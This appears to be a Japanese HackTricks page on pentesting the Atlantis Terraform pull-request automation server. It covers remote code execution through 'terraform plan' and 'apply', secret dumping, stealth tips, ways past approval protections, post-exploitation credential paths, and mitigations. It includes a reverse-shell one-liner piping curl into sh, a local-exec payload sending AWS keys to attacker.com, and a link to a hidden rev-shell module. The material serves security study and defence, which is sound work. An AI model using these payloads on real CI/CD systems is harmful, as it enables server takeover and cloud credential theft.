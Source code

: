 # アトランティスセキュリティ

<details>

{% hint style="success" %}
AWSハッキングの学習と練習：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加**するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出して、ハッキングトリックを共有してください。

</details>
{% endhint %}

## 基本情報

アトランティスは基本的に、あなたのgitサーバーからのプルリクエストからterraformを実行するのに役立ちます。

![](<../.gitbook/assets/image (161).png>)

## ローカルラボ

1. [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases)の**atlantisリリースページ**に移動し、適合するものを**ダウンロード**します。
2. あなたの**github**ユーザーの**リポジトリアクセス**を持つ**パーソナルトークン**を作成します。
3. `./atlantis testdrive`を実行すると、**atlantisと通信するために使用できるデモリポジトリ**が作成されます。
1. 127.0.0.1:4141でウェブページにアクセスできます。

## アトランティスアクセス

### Gitサーバーの資格情報

**Atlantis**は**Github**、**Gitlab**、**Bitbucket**、**Azure DevOps**など、複数のgitホストをサポートしています。\
ただし、これらのプラットフォームのリポジトリにアクセスし、アクションを実行するためには、それらに**特権アクセスが付与されている必要があります**（少なくとも書き込み権限が必要です）。\
[**ドキュメント**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional)では、これらのプラットフォームにAtlantis専用のユーザーを作成することを推奨していますが、一部の人は個人アカウントを使用するかもしれません。

{% hint style="warning" %}
攻撃者の視点からは、**Atlantisアカウント**を**侵害するのが非常に興味深い**でしょう。
{% endhint %}

### Webhooks

Atlantisはオプションで[**Webhookシークレット**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret)を使用して、Gitホストから受信した**webhooks**が**正当**であることを検証します。

これを確認する方法の1つは、リクエストがGitホストのIPからのみ許可されるようにすることですが、より簡単な方法はWebhookシークレットを使用することです。

プライベートなgithubやbitbucketサーバーを使用していない限り、Webhookエンドポイントをインターネットに公開する必要があります。

{% hint style="warning" %}
アトランティスは**webhookを公開**して、gitサーバーから情報を送信できるようにします。攻撃者の視点からは、**メッセージを送信できるかどうか**を知ることが興味深いでしょう。
{% endhint %}

### プロバイダーの資格情報 <a href="#provider-credentials" id="provider-credentials"></a>

[ドキュメントから：](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantisは、**`terraform plan`**および**`apply`**コマンドを単純にサーバーで実行してTerraformを実行します。ローカルでTerraformを実行するときと同様に、Atlantisは特定のプロバイダーの資格情報が必要です。

Atlantisに特定のプロバイダーの資格情報を提供する方法は次のとおりです：

* Atlantisの[Helm Chart](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart)と[AWS Fargate Module](https://www.runatlantis.io/docs/deployment.html#aws-fargate)には、プロバイダーの資格情報を提供するための独自のメカニズムがあります。それぞれのドキュメントを参照してください。
* クラウドでAtlantisを実行している場合、多くのクラウドには、その上で実行されているアプリケーションにクラウドAPIアクセスを提供する方法があります。例：
* [AWS EC2ロール](https://registry.terraform.io/providers/hashicorp/aws/latest/docs)（"EC2 Role"を検索）
* [GCEインスタンスサービスアカウント](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* 多くのユーザーは、Atlantisが実行されている場所で環境変数を設定します。例：`AWS_ACCESS_KEY`
* 他のユーザーは、Atlantisが実行されている場所に必要な構成ファイルを作成します。例：`~/.aws/credentials`
* [HashiCorp Vault Provider](https://registry.terraform.io/providers/hashicorp/vault/latest/docs)を使用してプロバイダーの資格情報を取得します。

{% hint style="warning" %}
**Atlantis**が**実行**されている**コンテナ**には、Terraformを介してAtlantisが管理しているプロバイダー（AWS、GCP、Githubなど）への**特権資格情報**がほぼ確実に含まれています。
{% endhint %}

### ウェブページ

デフォルトでは、Atlantisは**localhost**のポート4141で**ウェブページ**を実行します。このページでは、atlantis applyの有効化/無効化やリポジトリの計画ステータスの確認、ロック解除ができます（変更はできないため、あまり役立ちません）。

おそらくインターネットに公開されていないと思われますが、デフォルトではアクセスには**資格情報が必要ない**ようです（必要な場合は`atlantis`:`atlantis`が**デフォルト**です）。

## サーバーの構成

`atlantis server`の構成は、コマンドラインフラグ、環境変数、構成ファイル、またはこれらの組み合わせを使用して指定できます。

* Atlantisサーバーがサポートする[**フラグのリストはこちら**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration)
* [**こちらで構成オプションを環境変数に変換する方法**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)を見つけることができます。

値は次の順序で選択されます：

1. フラグ
2. 環境変数
3. 構成ファイル

{% hint style="warning" %}
構成には、**トークンやパスワード**などの興味深い値が含まれている可能性があることに注意してください。
{% endhint %}

### リポジトリの構成

一部の構成は**リポジトリの管理方法**に影響を与えます。ただし、**各リポジトリには異なる設定が必要**な場合があるため、各リポジトリを指定する方法があります。これが優先順位の順序です：

1. リポジトリ[**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config)ファイル。このファイルを使用して、atlantisがリポジトリをどのように扱うかを指定できます。ただし、デフォルトでは、いくつかのキーはフラグを許可しないとここで指定できません。
1. おそらく、`allowed_overrides`や`allow_custom_workflows`などのフラグによって許可される必要があります。
2. [**サーバーサイド構成**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)：`--repo-config`フラグで渡すことができ、各リポジトリの新しい設定を構成するyamlです（正規表現がサポートされています）。
3. **デフォルト**の値
#### PR Protections

Atlantisは、**PR**を他の誰かによって**`approved`**されることを希望するかどうか（ブランチ保護に設定されていなくても）および/または**`mergeable`**（ブランチ保護が通過）**applyを実行する前に**できるようにします。セキュリティの観点から、両方のオプションを設定することが推奨されています。

`allowed_overrides`がTrueの場合、これらの設定は**`/atlantis.yml`ファイル**によって**各プロジェクトで上書き**できます。

#### Scripts

リポジトリの構成では、[**実行前**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage)（_pre workflow hooks_）および[**実行後**](https://www.runatlantis.io/docs/post-workflow-hooks.html)（_post workflow hooks_）に**ワークフローが実行される前に**実行するスクリプトを**指定**できます。

これらのスクリプトを**リポジトリの`/atlantis.yml`**ファイルで**指定**するオプションはありません。

#### Workflow

リポジトリの構成（サーバーサイド構成）では、[**新しいデフォルトのワークフローを指定**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow)するか、[**新しいカスタムワークフローを作成**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)****することができます。また、生成された**新しいものにアクセスできる**リポジトリを**指定**することもできます。\
その後、各リポジトリの**atlantis.yaml**ファイルで使用するワークフローを**指定**できます。

{% hint style="danger" %}
[**サーバーサイド構成**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)フラグ`allow_custom_workflows`が**True**に設定されている場合、ワークフローは各リポジトリの**`atlantis.yaml`**ファイルで**指定**できます。また、**`allowed_overrides`**が**`workflow`**も**オーバーライドするワークフロー**を**指定**する必要がある可能性があります。\
これにより、**そのリポジトリにアクセスできるユーザーに対してAtlantisサーバーでRCEが基本的に提供**されます。
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Conftest ポリシーチェック

Atlantis は、**サーバーサイド**で [**conftest**](https://www.conftest.dev/) **ポリシー**を実行することをサポートしています。このステップを使用する一般的なユースケースには、次のものがあります：

* モジュールのリストの使用を拒否する
* リソースの属性を作成時にアサートする
* 意図しないリソースの削除をキャッチする
* セキュリティリスクを防ぐ（たとえば、セキュアなポートを公開する）

[**ドキュメント**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works) でその設定方法を確認できます。

## Atlantis コマンド

[**ドキュメント**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) で、Atlantis を実行するために使用できるオプションを見つけることができます。
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## 攻撃

{% hint style="warning" %}
もし攻撃中にこの **エラー** を見つけた場合: `Error: Error acquiring the state lock`

次のコマンドを実行して修正できます:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### アトランティスプランRCE - 新しいPRでの構成変更

リポジトリに書き込みアクセス権がある場合、新しいブランチを作成してPRを生成することができます。**`atlantis plan`を実行できる場合**（または自動的に実行される場合があります）、**アトランティスサーバー内でRCEを実行できます**。

これは、[**アトランティスが外部データソースを読み込むようにする**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)ことで行うことができます。単純に、`main.tf`ファイルに次のようなペイロードを配置します：
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### 隠密な攻撃

この攻撃をより**隠密に**行うために、次の提案に従うことができます：

* リバースシェルを直接terraformファイルに追加する代わりに、リバースシェルを含む**外部リソースを読み込む**ことができます：
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
以下のコードにrev shellコードが見つかります: [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* 外部リソースでは、**ref**機能を使用して、リポジトリ内の**terraform rev shellコードをブランチに隠す**ことができます。例: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* Atlantisをトリガーするために**masterへのPRを作成する代わりに**、**2つのブランチ**（test1とtest2）を作成し、**1つからもう1つへのPRを作成**します。攻撃が完了したら、単に**PRとブランチを削除**してください。

### Atlantis plan Secrets Dump

`atlantis plan` (`terraform plan`)を実行して**terraformで使用されるシークレットをダンプ**するには、terraformファイルに次のようなものを配置します:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis apply RCE - 新しいPRでのConfig変更

リポジトリに書き込みアクセス権がある場合、新しいブランチを作成してPRを生成することができます。**`atlantis apply`を実行できると、Atlantisサーバー内でRCEを実行できます**。

ただし、通常はいくつかの保護をバイパスする必要があります:

* **Mergeable**: この保護がAtlantisに設定されている場合、**PRがマージ可能である場合にのみ`atlantis apply`を実行できます**（つまり、ブランチ保護をバイパスする必要があります）。
* [**ブランチ保護のバイパス**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)をチェックしてください。
* **Approved**: この保護がAtlantisに設定されている場合、**他のユーザーがPRを承認する必要があります**。その後で`atlantis apply`を実行できます。
* デフォルトでは、[**この保護をバイパスするためにGitbotトークンを悪用**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)できます。

**`local-exec`**を使用した悪意のあるTerraformファイルで**`terraform apply`を実行します**。\
次のようなペイロードが`main.tf`ファイルに含まれるようにするだけです:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
**前のテクニックからの提案に従って**、この攻撃を**より慎重な方法**で実行します。

### Terraformパラメータインジェクション

`atlantis plan`または`atlantis apply`を実行すると、terraformが実行されます。atlantisからterraformにコマンドを渡すことができます。コメントのように:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
### カスタムワークフロー

`atlantis.yaml` ファイルで指定された **悪意のあるカスタムビルドコマンド** を実行します。 Atlantis はプルリクエストブランチの `atlantis.yaml` ファイルを使用しますが、`master` のものではありません。\
この可能性は以前のセクションで言及されました：

{% hint style="danger" %}
[**サーバーサイド構成**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) フラグ `allow_custom_workflows` が **True** に設定されている場合、各リポジトリの **`atlantis.yaml`** ファイルでワークフローを **指定** できます。また、使用されるワークフローを **オーバーライドするために** `allowed_overrides` が **`workflow`** も指定されている可能性があります。

これにより、**そのリポジトリにアクセスできるユーザーにとって Atlantis サーバーでの RCE** が基本的に提供されます。
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### バイパス計画/適用保護

もし[**サーバーサイド構成**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config)のフラグ`allowed_overrides`が`apply_requirements`で構成されている場合、リポジトリは**それらをバイパスして計画/適用保護を変更することが可能**です。
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### PR Hijacking

**`atlantis plan/apply` コマンドを有効なプルリクエストに対してコメントすると、** 望まないタイミングでterraformが実行されます。

さらに、**ブランチ保護**で新しいコミットがプッシュされた際にすべてのPRを**再評価するように構成していない場合、**誰かがterraform構成に**悪意のある設定**（前述のシナリオを確認）を書き込み、`atlantis plan/apply`を実行してRCEを取得する可能性があります。

これはGithubのブランチ保護の**設定**です：

![](<../.gitbook/assets/image (216).png>)

### Webhook Secret

Webhook secretを**盗むことができた場合**や、**使用されていない場合**、Atlantis webhookを呼び出して**atlantisコマンドを直接実行**することができます。

### Bitbucket

Bitbucket Cloudは**webhook secretをサポートしていません**。これにより攻撃者がBitbucketからのリクエストを**偽装**する可能性があります。BitbucketのIPのみを許可していることを確認してください。

* これは**攻撃者**がBitbucketから送信されたように見える**Atlantisへの偽のリクエスト**を行う可能性があることを意味します。
* `--repo-allowlist`を指定している場合、それらのリポジトリに関連する偽のリクエストのみを行うことができるため、最大の被害は自分のリポジトリでのplan/applyになります。
* これを防ぐために、[BitbucketのIPアドレス](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html)を許可リストに追加してください（Outbound IPv4 addressesを参照）。

## Post-Exploitation

サーバーへのアクセスを取得したり、少なくともLFIを取得した場合、次の興味深い情報を読んでみるべきです：

* `/home/atlantis/.git-credentials` VCSアクセス資格情報を含む
* `/atlantis-data/atlantis.db` より詳細なVCSアクセス資格情報を含む
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` Terraformステートファイル
* 例: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` 環境変数
* `/proc/[2-20]/cmdline` `atlantis server`のコマンドライン（機密データを含む可能性があります）

## Mitigations

### Don't Use On Public Repos <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

セキュリティ対策があっても、誰でも公開リポジトリにコメントできるため、セキュリティ設定が適切に構成されていない場合、公開リポジトリでAtlantisを実行することは依然として危険です。

### Don't Use `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

公開リポジトリで実行している場合（お勧めしません、上記参照）、`--allow-fork-prs`を設定すべきではありません（デフォルトはfalse）​​。誰でもフォークからリポジトリにプルリクエストを開くことができるためです。

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantisは、`--repo-allowlist`フラグを介してWebhookを受け入れるリポジトリの許可リストを指定する必要があります。例：

* 特定のリポジトリ: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* 組織全体: `--repo-allowlist=github.com/runatlantis/*`
* GitHub Enterpriseインストール内のすべてのリポジトリ: `--repo-allowlist=github.yourcompany.com/*`
* すべてのリポジトリ: `--repo-allowlist=*`。保護されたネットワーク内で使用する場合は便利ですが、Webhook secretも設定しないと危険です。

このフラグにより、Atlantisのインストールが制御できないリポジトリで使用されていないことが確認されます。詳細については`atlantis server --help`を参照してください。

### Protect Terraform Planning <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

悪意のあるTerraformコードを提出する攻撃者が脅威モデルに含まれている場合、`terraform apply`の承認だけでは不十分です。[`external`データソース](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source)を使用するか、悪意のあるプロバイダを指定することで、`terraform plan`で悪意のあるコードを実行することが可能です。そのコードは資格情報を外部に流出させる可能性があります。

これを防ぐためには、次のことができます：

1. Atlantisイメージにプロバイダを組み込み、本番環境でのegressを拒否します。
2. プロバイダレジストリプロトコルを内部で実装し、パブリックegressを拒否します。これにより、レジストリへの書き込みアクセスを制御できます。
3. [サーバーサイドのリポジトリ構成](https://www.runatlantis.io/docs/server-side-repo-config.html)の`plan`ステップを変更して、許可されていないプロバイダやデータソースの使用に対して検証します。また、この時点で追加の検証を追加することもできます。たとえば、`plan`を続行する前にPRに「承認」が必要などです。ここでConftestを使用することができます。

### Webhook Secrets <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantisは、`$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`環境変数を介して設定されたWebhookシークレットで実行する必要があります。`--repo-allowlist`フラグが設定されていても、Webhookシークレットがない場合、攻撃者は許可されたリポジトリとしてAtlantisにリクエストを行うことができます。Webhookシークレットにより、Webhookリクエストが実際にVCSプロバイダ（GitHubまたはGitLab）から送信されていることが保証されます。

Azure DevOpsを使用している場合、Webhookシークレットの代わりに基本認証のユーザー名とパスワードを追加してください。

### Azure DevOps Basic Authentication <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOpsは、すべてのWebhookイベントで基本認証ヘッダーを送信することをサポートしています。Webhookの場所にHTTPS URLを使用する必要があります。

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Webhookシークレットを使用しているがトラフィックがHTTP経由の場合、Webhookシークレットが盗まれる可能性があります。`--ssl-cert-file`および`--ssl-key-file`フラグを使用してSSL/HTTPSを有効にしてください。

### Enable Authentication on Atlantis Web Server <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

Webサービスで認証を有効にすることを強くお勧めします。`--web-basic-auth=true`を使用してBasicAuthを有効にし、`--web-username=yourUsername`および`--web-password=yourPassword`フラグを使用してユーザー名とパスワードを設定してください。

これらを環境変数として渡すこともできます：`ATLANTIS_WEB_BASIC_AUTH=true`、`ATLANTIS_WEB_USERNAME=yourUsername`、`ATLANTIS_WEB_PASSWORD=yourPassword`。

## References

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
AWSハッキングの学習と実践：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と実践：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、Twitterでフォローする 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
